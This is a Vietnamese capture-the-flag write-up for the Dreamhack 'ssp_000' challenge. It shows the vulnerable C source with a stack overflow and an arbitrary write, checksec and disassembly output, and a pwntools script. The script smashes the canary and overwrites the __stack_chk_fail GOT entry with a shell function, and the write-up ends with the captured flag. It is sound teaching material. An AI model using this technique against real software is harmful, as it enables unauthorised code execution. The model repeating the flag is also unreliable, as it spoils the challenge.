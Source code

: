 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}

```

- Chương trình cho nhập vào biến `buf` với tối đa 0x80 byte. Nhưng biến `buf` chỉ được khai báo 0x40 byte -> Có lỗi `bof`
- Sau đó cho nhập vào biến `addr` và `value` dạng số. Rồi gán con trỏ của biến `addr` bằng giá trị của `value`

**2. Ý tưởng**

Dùng lệnh `checksec` kiểm tra:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Ở đây có `canary` nên ko chèn hàm `get_shell` sau `ret` được nhưng nếu làm sai `canary` thì chương trình sẽ chạy đến `__stack_chk_fail` và ta gán địa chỉ này cho biến `addr` và địa chỉ hàm `get_shell` cho biến `value` thì mọi thứ được giải quyết.

**3. Khai thác**

```
   0x0000000000400937 <+60>:    lea    rax,[rbp-0x50]
   0x000000000040093b <+64>:    mov    edx,0x80
   0x0000000000400940 <+69>:    mov    rsi,rax
   0x0000000000400943 <+72>:    mov    edi,0x0
   0x0000000000400948 <+77>:    call   0x400710 <read@plt>
```

Ta thấy biến `buf` cách rbp 0x50 byte nên ghi luôn 0x50 byte rác vào buf kiểu gì cũng ghi đè luôn giá trị của `canary`.

Ta có script như sau:

```
from pwn import *

exe = ELF('ssp_000', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 15638)

payload = b'a'*0x50
r.send(payload)

payload = str(exe.got['__stack_chk_fail'])
r.sendlineafter(b'Addr : ', payload)

payload = str(exe.sym['get_shell'])
r.sendlineafter(b'Value : ', payload)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: DH{e4d253b82911565ad8dd9625fb491ab0}`